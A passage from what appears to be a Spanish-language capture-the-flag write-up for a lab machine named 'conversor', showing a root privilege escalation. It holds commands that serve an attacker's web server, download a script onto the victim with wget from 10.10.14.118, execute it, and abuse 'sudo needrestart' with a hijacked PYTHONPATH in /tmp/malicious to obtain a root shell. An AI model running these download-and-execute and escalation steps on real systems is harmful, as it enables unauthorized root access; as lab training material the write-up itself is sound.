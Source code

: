 ```bash
time.sleep(1)  
EOF  
  
cd /tmp/malicious; PYTHONPATH="$PWD" python3 e.py 2>/dev/null


```

  
- Inicia un servidor

```bash

python3 -m http.server  

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```    

- Despues en la maquina victima descargamos el archivo, le damos permisos de ejecución y lo ejecutamos 

```bash

wget http://10.10.14.118:8000/runner.sh  

fismathack@conversor:/dev/shm$ chmod +x runner.sh  

fismathack@conversor:/dev/shm$ ./runner.sh
```

**Importante**

- Después de ejecutar runner.sh, necesitamos abrir otra ventana ssh y ejecutar 
`sudo/usr/sbin/needrestart` para obtener el shell de root.
  
   
![alt text](<../../../public/img/CONVERSOR (7).png>)

---